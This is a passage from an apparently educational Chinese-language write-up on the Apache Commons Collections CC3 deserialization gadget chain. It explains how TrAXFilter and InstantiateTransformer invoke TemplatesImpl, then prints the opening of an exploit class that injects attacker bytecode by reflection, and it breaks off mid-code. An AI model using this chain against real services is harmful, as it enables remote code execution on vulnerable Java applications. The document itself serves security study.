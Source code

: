 最后我们看TrAXFilter类，虽然该类没有继承serializable，在构造函数中就给templates赋值，并调用了newTransformer()

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240801173904154.png)

怎么触发构造函数呢？

本链官方给出了InstantiateTransformer类，该类的transform获取构造器，并newInstance()，等于调用了构造函数。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240801174100867.png)

构造函数传进去调用指定构造器

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240801174410156.png)

```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesClass}),
        };       
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240801175725066.png)

轻松拿下



完整代码2：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC3TrAXFilter {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\CC6TiedMapEntry2.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
```